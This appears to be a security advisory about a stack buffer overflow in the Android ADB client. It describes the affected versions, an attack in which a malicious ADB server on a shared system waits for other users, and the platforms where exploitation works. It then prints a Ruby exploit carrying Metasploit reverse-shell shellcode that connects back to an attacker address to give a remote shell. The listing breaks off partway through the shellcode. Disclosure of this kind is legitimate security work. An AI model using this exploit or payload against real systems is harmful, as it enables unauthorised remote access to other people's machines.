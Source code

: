 Affected Versions
-----------------
The discovery was made while reviewing ADB from the android-4.4_r1.1 AOSP tag.
Exploitation was confirmed possible using version 18.0.1 of the SDK platform-tools on x86_64 Ubuntu Linux 12.04.
Issues #1 and #2 are believed to be present in all current and previous versions.


Exploit Scenario
----------------
On a multi-user system, an attacker can start a malicious ADB Server and wait for other users to run the "adb" command. If an existing ADB Server is listening, an attacker will not be able to carry out this attack. Issue #1 happens very early during protocol negotiations so just about any command that communicates with the ADB Server will lead to successful exploitation.


Exploitability
--------------
Issue #1 does not appear to be exploitable on platforms other than Linux x86_64. On this platform, passing a large length argument to the "read" function succeeds. On others, including Linux x86, it leads to an error and no data is read into the specified buffer. It should be noted that Windows was not tested. The "adb" binary present on a Nexus 4 was tested and found not to be exploitable.

The following exploit leverages both issues:

<p>
{% highlight ruby %}
#!/usr/bin/env ruby
# -*- coding: binary -*-

require 'socket'
require 'uri'

puts "[*] Exploit for ADB client stack buffer overflow -jduck"

# linux/x86/shell_reverse_tcp - 90 bytes
# http://www.metasploit.com
# VERBOSE=false, LHOST=192.168.0.2, LPORT=2121,
# ReverseConnectRetries=5, ReverseAllowProxy=false,
# PrependFork=true, PrependSetresuid=false,
# PrependSetreuid=false, PrependSetuid=false,
# PrependSetresgid=false, PrependSetregid=false,
# PrependSetgid=false, PrependChrootBreak=false,
# AppendExit=true, InitialAutoRunScript=, AutoRunScript=
payload =
  "\x6a\x02\x58\xcd\x80\x85\xc0\x74\x06\x31\xc0\xb0\x01\xcd" +
  "\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66" +
  "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8" +
  "\x00\x02\x68\x02\x00\x08\x49\x89\xe1\xb0\x66\x50\x51\x53" +
  "\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f" +
  "\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80\x31" +